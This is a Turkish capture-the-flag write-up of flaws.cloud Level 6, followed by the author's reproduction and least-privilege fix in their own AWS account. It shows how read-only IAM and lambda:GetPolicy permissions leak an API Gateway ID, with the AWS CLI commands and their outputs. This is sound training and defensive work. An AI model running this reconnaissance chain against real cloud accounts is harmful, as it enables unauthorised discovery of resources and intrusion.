# flaws.cloud — Level 6

## 1. Özet

Level 6, serinin son ve en "meta" level'ı: bu sefer bir misconfiguration
değil, **salt-okunur (read-only) sayılan bir IAM policy'nin gerçekte ne
kadar tehlikeli olabileceği** gösteriliyor. Level, `SecurityAudit` gibi
"sadece okuma" izni veren bir yönetilen (managed) policy'nin bağlı olduğu
bir kullanıcı access key'i veriyor. Bu policy tek başına hiçbir kaynağı
değiştirmeye ya da veri okumaya izin vermiyor — sadece **IAM policy'lerin
kendisini okumaya** izin veriyor. Ama bu "meta-okuma" yeteneği zincirleme
bir keşif sağlıyor: önce kullanıcının hangi ek policy'lere sahip olduğu
öğreniliyor, sonra bu policy'lerin *içeriği* okunarak Lambda fonksiyonuna
erişim var mı diye bakılıyor. `lambda:GetFunction` (kodu okuma) izni yokken
`lambda:GetPolicy` (fonksiyonun resource-based policy'sini okuma) izni
bulunuyor — ve bu policy'nin içinde, fonksiyonu tetikleyen **API Gateway
REST API ID'si** açıkça yazılı duruyor. Böylece hiçbir "invoke" veya
"execute" izni olmadan, sadece meta-veri okuyarak gizli bir API Gateway
endpoint'ine ulaşılabiliyor. Zincir özetle: **SecurityAudit → IAM policy
okuma → Lambda resource policy okuma → API Gateway ID sızıntısı → public
endpoint çağrısı → flag**.

## 2. Sömürü (Exploit)

**a) Level 6 görevinin görülmesi**

Level 5'i geçince açılan sayfada görev şöyle tanımlanıyor: bu final
challenge için `SecurityAudit` policy'si bağlı bir kullanıcı access key'i
veriliyor; amaç bu policy ile hesapta başka neler yapılabileceğini ve neler
bulunabileceğini keşfetmek.



**Not:** Bu access key/secret çifti flaws.cloud'un bilerek dağıttığı,
herkese açık bir eğitim credential'ı. Değerleri metinde tekrar yazmıyorum,
sadece ekran görüntüsüne referans veriyorum.

**b) Kimliğin ve bağlı policy'lerin doğrulanması**

```bash
aws sts get-caller-identity --profile flaws6
```

```json
{
    "UserId": "AIDAIRMDOSCWGLCDWOG6A",
    "Account": "975426262029",
    "Arn": "arn:aws:iam::975426262029:user/Level6"
}
```

```bash
aws iam list-attached-user-policies --user-name Level6 --profile flaws6
```

```json
{
    "AttachedPolicies": [
        {
            "PolicyName": "MySecurityAudit",
            "PolicyArn": "arn:aws:iam::975426262029:policy/MySecurityAudit"
        },
        {
            "PolicyName": "list_apigateways",
            "PolicyArn": "arn:aws:iam::975426262029:policy/list_apigateways"
        }
    ]
}
```



Level6 kullanıcısına sadece "SecurityAudit" değil, **iki ayrı** policy
bağlı: genel amaçlı `MySecurityAudit` ve ismi kendini açıklayan
`list_apigateways`.

**c) Credential'ların CLI profiline yüklenmesi**

```bash
aws configure set aws_access_key_id AKIAJFQ6E7BY57Q****** (redacted) --profile flaws6
aws configure set aws_secret_access_key [REDACTED] --profile flaws6
aws configure set region us-west-2 --profile flaws6
aws configure set cli_pager "" --profile flaws6
```



**d) MySecurityAudit policy'sinin detayının okunması**

```bash
aws iam get-policy --policy-arn arn:aws:iam::975426262029:policy/MySecurityAudit --profile flaws6
```

```json
{
    "Policy": {
        "PolicyName": "MySecurityAudit",
        "PolicyId": "ANPAJCK5AS3ZZEILYYVC6",
        "Arn": "arn:aws:iam::975426262029:policy/MySecurityAudit",
        "Path": "/",
        "DefaultVersionId": "v1",
        "AttachmentCount": 1,
        "PermissionsBoundaryUsageCount": 0,
        "IsAttachable": true,
        "Description": "Most of the security audit capabilities",
        "CreateDate": "2019-03-03T16:42:45+00:00",
        "UpdateDate": "2019-03-03T16:42:45+00:00",
        "Tags": []
    }
}
```



**e) Policy içeriğinde Lambda izinlerinin filtrelenmesi — kritik gözlem 1**

```bash
aws iam get-policy-version --policy-arn arn:aws:iam::975426262029:policy/MySecurityAudit --version-id v1 --profile flaws6 | grep -i lambda
```

```
            "lambda:GetAccountSettings",
            "lambda:GetPolicy",
            "lambda:List*",
```



**Kritik gözlem (a):** İzin listesinde `lambda:GetFunction` **yok** — yani
fonksiyonun kodu indirilemiyor/okunamıyor. Ama `lambda:GetPolicy` **var** —
yani fonksiyonun *resource-based policy*'si (fonksiyonu kimin/neyin
tetikleyebileceğini tanımlayan JSON) okunabiliyor. Bu ayrım tam olarak
"SecurityAudit salt-okunur" felsefesiyle örtüşüyor: kod gizli kalıyor ama
yapılandırma meta-verisi okunabiliyor.

**f) İlk deneme: API Gateway'i doğrudan listelemek — reddedildi**

```bash
aws apigateway get-rest-apis --region us-west-2 --profile flaws6
```

```
aws: [ERROR]: An error occurred (AccessDeniedException) when calling the GetRestApis operation:
User: arn:aws:iam::975426262029:user/Level6 is not authorized to perform: apigateway:GET
on resource: arn:aws:apigateway:us-west-2::/restapis because no identity-based policy
allows the apigateway:GET action
```



**g) list_apigateways policy'sinin gerçek kapsamının okunması — kritik gözlem 2**

```bash
aws iam get-policy --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --profile flaws6
aws iam get-policy-version --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4 --profile flaws6
```

```json
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Action": ["apigateway:GET"],
                    "Effect": "Allow",
                    "Resource": "arn:aws:apigateway:us-west-2::/restapis/*"
                }
            ]
        },
        "VersionId": "v4",
        "IsDefaultVersion": true,
        "CreateDate": "2017-02-20T01:48:17+00:00"
    }
}
```



**Kritik gözlem (b):** İzim ismi "list_apigateways" olsa da `Resource`
alanı **kök listeye (`/restapis`) değil, sadece `/restapis/*`'e** izin
veriyor — yani belirli bir REST API **ID'sini önceden bilmek** gerekiyor.
Bu, bir önceki adımdaki `AccessDeniedException`'ı da açıklıyor: kök liste
isteği (adım f) bu policy kapsamında değil. API ID'yi öğrenmenin tek yolu
onu **dolaylı bir kanaldan** sızdırmak.

**h) Lambda fonksiyonunun keşfi ve API ID sızıntısı**

```bash
aws --region us-west-2 --profile flaws6 lambda list-functions
```

```json
{
    "Functions": [
        {
            "FunctionName": "Level6",
            "FunctionArn": "arn:aws:lambda:us-west-2:975426262029:function:Level6",
            "Runtime": "python2.7",
            "Role": "arn:aws:iam::975426262029:role/service-role/Level6",
            "Handler": "lambda_function.lambda_handler",
            "Description": "A starter AWS Lambda function.",
            "Timeout": 3,
            "MemorySize": 128
        }
    ]
}
```

```bash
aws --region us-west-2 --profile flaws6 lambda get-policy --function-name Level6
```

```json
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"904610a93f593b76ad66ed6ed82c0a8b\",\"Effect\":\"Allow\",\"Principal\":{\"Service\":\"apigateway.amazonaws.com\"},\"Action\":\"lambda:InvokeFunction\",\"Resource\":\"arn:aws:lambda:us-west-2:975426262029:function:Level6\",\"Condition\":{\"ArnLike\":{\"AWS:SourceArn\":\"arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\"}}}]}"
}
```



`get-policy` çıktısındaki `SourceArn` koşulu içinde **`s33ppypa75`** REST
API ID'si açıkça görünüyor — bu ID, adım (g)'deki `/restapis/*` policy'sini
kullanılabilir kılan tam olarak eksik parça. Fonksiyonu **çağırma
(`InvokeFunction`)** izni hiç olmadan, sadece **fonksiyonun kim tarafından
çağrılabileceğini tanımlayan policy'yi okuyarak (`GetPolicy`)** bu ID
öğrenildi.

**i) Stage keşfi ve final çağrı**

```bash
aws --profile flaws6 --region us-west-2 apigateway get-stages --rest-api-id s33ppypa75
```

```json
{
    "item": [
        {
            "deploymentId": "8gppiv",
            "stageName": "Prod",
            "cacheClusterEnabled": false,
            "cacheClusterStatus": "NOT_AVAILABLE",
            "methodSettings": {},
            "tracingEnabled": false,
            "createdDate": "2017-02-27T03:26:08+03:00",
            "lastUpdatedDate": "2017-02-27T03:26:08+03:00"
        }
    ]
}
```

```bash
curl -s https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6
```

```
"Go to http://theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud/d730aa2b/"
```



**Kritik gözlem (c):** Bu son `curl` çağrısı **hiçbir AWS credential'ı
gerektirmedi** — API Gateway endpoint'i tamamen **public**. Buradaki tüm
IAM/CLI zinciri (adım b-h), aslında bu public URL'in **adresini
keşfetmek** için gerekliydi; endpoint'in kendisi baştan beri herkese açıktı.

**j) Flag ve "Lesson learned"**

`theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud/d730aa2b/` adresi
tarayıcıda açıldığında flaws.cloud serisinin bitiş sayfası ("flAWS - The
End") görüntülendi:


flaws.cloud'un bu level için verdiği "Lesson learned" metnini kendi
cümlelerimle özetlersem: insanlara/servis hesaplarına `SecurityAudit` gibi
salt-okunur izinler vermek çok yaygın bir uygulama. Ama IAM policy'leri
okuyabilme yeteneği, bir saldırganın ortamda neler olduğunu ve hangi
zayıflıkların bulunduğunu anlamasına gerçekten yardımcı olabiliyor. Önlem
olarak: hiçbir izni gelişigüzel dağıtmamak gerekiyor — sadece meta-veriyi
ya da kendi izinlerinizi okumanıza izin veren izinler bile bu kapsama
giriyor.

## 3. Önleme (Remediation)

flaws.cloud'un hesabını değiştiremeyeceğimiz için, aynı zafiyet **sınıfını**
(salt-okunur bir policy'nin Lambda resource policy'si üzerinden API Gateway
ID'si sızdırması) kendi hesabımda (`174429081136`) sıfırdan kurdum: bir
Lambda fonksiyonu + bir API Gateway trigger + bir IAM kullanıcı/policy
zinciri oluşturup, hem **zararlı (geniş policy)** hem de **düzeltilmiş
(least-privilege)** hâliyle test ettim.

**a) Test ortamının kurulması: Lambda + API Gateway trigger**

Kendi hesabımda basit bir test Lambda fonksiyonu (`test-level-6-lambda`,
Python runtime) oluşturuldu ve bu fonksiyona bir API Gateway trigger'ı
(REST API tipi, flaws'ın senaryosuyla tutarlı olsun diye Security: Open)
eklendi:

```
API Gateway: test-level-6-lambda-API
arn:aws:execute-api:us-west-2:174429081136:4c20dfvq15/*/*/test-level-6-lambda
API endpoint: https://4c20dfvq15.execute-api.us-west-2.amazonaws.com/default/test-level-6-lambda
```



**b) Ground-truth: geniş policy ile zafiyetin doğrulanması**

`test-level6-user` kullanıcısına geniş bir test policy'si (`test-wide-audit`:
`lambda:ListFunctions` + `lambda:GetPolicy`) bağlıyken:

```bash
aws sts get-caller-identity --profile test-wide
```

```json
{
    "UserId": "AIDASRHGIRYYKUPMNNX46",
    "Account": "174429081136",
    "Arn": "arn:aws:iam::174429081136:user/test-level6-user"
}
```

```bash
aws lambda list-functions --profile test-wide
```

Başarılı — `test-level-6-lambda` fonksiyonu listelendi.



```bash
aws lambda get-policy --function-name test-level-6-lambda --profile test-wide
```

```json
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"lambda-50611589-98f3-443f-874c-c5a7d65a590e\",\"Effect\":\"Allow\",\"Principal\":{\"Service\":\"apigateway.amazonaws.com\"},\"Action\":\"lambda:InvokeFunction\",\"Resource\":\"arn:aws:lambda:us-west-2:174429081136:function:test-level-6-lambda\",\"Condition\":{\"ArnLike\":{\"AWS:SourceArn\":\"arn:aws:execute-api:us-west-2:174429081136:4c20dfvq15/*/*/test-level-6-lambda\"}}}]}",
    "RevisionId": "a3a7feb2-aa07-4a38-bcca-078eeb684671"
}
```



Bu, flaws.cloud Level 6 senaryosunun **birebir aynı şekilde** kendi
ortamımda tekrarlandığının ground-truth kanıtı: `lambda:GetPolicy` izni,
`InvokeFunction` izni olmadan da REST API ID'sini (`4c20dfvq15`) sızdırıyor.

**c) Önlem: least-privilege policy'ye geçiş**

Önce geniş policy kullanıcıdan ayrıldı, ardından **sadece gerçekten gerekli
olan** izni içeren minimal bir policy oluşturulup bağlandı — `GetPolicy`
kasıtlı olarak dışarıda bırakıldı:

```bash
aws iam detach-user-policy --user-name test-level6-user --policy-arn arn:aws:iam::174429081136:policy/test-wide-audit

cat > minimal-policy.json << 'EOF'
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "lambda:ListFunctions"
      ],
      "Resource": "*"
    }
  ]
}
EOF

aws iam create-policy --policy-name test-minimal-audit --policy-document file://minimal-policy.json
```

```json
{
    "Policy": {
        "PolicyName": "test-minimal-audit",
        "PolicyId": "ANPASRHGIRYYM3CWHQT7C",
        "Arn": "arn:aws:iam::174429081136:policy/test-minimal-audit",
        "DefaultVersionId": "v1",
        "IsAttachable": true,
        "CreateDate": "2026-08-02T20:57:39+00:00"
    }
}
```

```bash
aws iam attach-user-policy --user-name test-level6-user --policy-arn arn:aws:iam::174429081136:policy/test-minimal-audit
```



**d) Doğrulama: zincir tekrar test edildi**

```bash
aws lambda list-functions --profile test-wide
```

Başarılı — `test-level-6-lambda` yine listelendi (meşru ihtiyaç korundu).

```bash
aws lambda get-policy --function-name test-level-6-lambda --profile test-wide
```

```
aws: [ERROR]: An error occurred (AccessDeniedException) when calling the GetPolicy operation:
User: arn:aws:iam::174429081136:user/test-level6-user is not authorized to perform: lambda:GetPolicy
on resource: arn:aws:lambda:us-west-2:174429081136:function:test-level-6-lambda because no
identity-based policy allows the lambda:GetPolicy action
```

